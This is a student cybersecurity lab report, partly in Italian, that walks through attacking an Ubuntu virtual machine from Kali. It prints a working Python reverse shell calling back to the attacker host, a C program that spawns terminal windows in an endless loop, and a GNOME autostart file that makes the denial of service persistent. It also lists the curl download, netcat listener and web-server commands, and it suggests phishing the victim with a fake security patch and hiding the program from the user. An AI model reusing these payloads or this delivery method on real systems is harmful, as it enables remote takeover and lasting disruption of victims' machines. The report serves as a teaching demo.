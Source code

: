 ## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

## Kali Preparation
First of all, all the necessary files were created on Kali.
First, the `reverseshell.sh` file, where the is the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#perl) in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.
Then, a very simple C program, `dos.c`, was created, containing an infinite while loop that continues to open terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.
Finally, the `dos.desktop` file was created:
```js
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.
Once the files were created, a web file server was also created on port 80, using the command.
`python -m http.server 80`

![Web File Server](images/webfileserverdemo.png)

At this point, the only thing left to do is to listen on the default port, to do this it was used the command: `nc -lvp 4444 -n`

# Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali, at this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges, finally the file is executed with `./reverseshell.sh`.
At this point, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.

![Reverse Shell](images/reverseshell.png)

# DoS e persistence

Utilizzando la reverse shell, ora, è facile scaricare il programma `dos.c` e il file `dos.desktop` dal web file server di Kali utilizzando sempre il comando `curl`:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
ora, il programma dos.c viene compilato utilizzando il comando `ggc -o dos dos.c`, viene creato, così, l'eseguibile. Prima di eseguirlo, però, bisogna creare persistenza: il file `dos.desktop` viene spostato in `.config/autostart`, per fare ciò viene utilizzato il comando `mv`, che deve, però, essere eseguito con privilegi di amministratore, quindi utilizzando `sudo`, questo implica che l'attaccante debba conoscere la password dell'account. Una volta che `dos.desktop` viene spostato, il programma `dos` è visibile in Startup Application Preferences, che mostra i programmi che vengono eseguiti allo startup della macchina. 

![Startup Application Preferences](images/startupapplications.png)

quindi, ogni volta che avverrà l'accesso alla macchina, verranno aperte in loop innumerevoli finestre di terminale, rendendolo inutilizzabile. 

![DoS](images/dos.png)

Inoltre, un'altra feature interessante è che, provando a rimuovere `dos` utilizzando l'applicazione Startup Application Preferences e riavvinado la macchina, il programma viene eseguito comunque, questo perchè non viene rimosso il file `dos.desktop` presente in `.config/autostart`, il quale continua rimettere il programma tra le applicazioni da eseguire all'avvio. 
Per fermare questo attacco si potrebbe pensare di cancellare l'eseguibile `dos`, ma nel caso in cui questo venga a sua volta posto in una cartella non facilmente raggiungibile, questo non si potrebbe fare, soprattutto se non si sa cosa sta succedendo e se la macchina comincia a crashare. 
In alternativa si potrebbe pensare si cancellare il file dos.desktop, ma essendo collocato in una directory nascosta di default ed essendo il terminale non utilizzabile, questo potrebbe risultare difficile.

